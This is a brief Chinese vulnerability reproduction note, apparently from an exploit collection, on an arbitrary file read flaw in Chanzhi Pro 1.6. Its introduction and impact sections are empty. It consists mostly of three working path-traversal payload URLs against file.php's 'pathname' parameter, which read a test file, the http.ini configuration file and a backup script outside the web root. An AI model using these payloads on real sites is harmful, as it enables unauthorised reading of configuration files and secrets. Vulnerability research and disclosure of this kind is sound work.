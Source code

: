 禅知 Pro 1.6 前台任意文件读取
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在网站根目录C:\\xampp\\chanzhi\\www新建一个测试文件test.php

![](resource/禅知Pro1.6前台任意文件读取/media/rId24.png)

执行payload查看文件内容：

    http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source

![](resource/禅知Pro1.6前台任意文件读取/media/rId25.png)

执行payload来查看程序的配置文件：

    http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source

![](resource/禅知Pro1.6前台任意文件读取/media/rId26.png)

跨目录读取文件（前提是有目录权限）：

    http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source
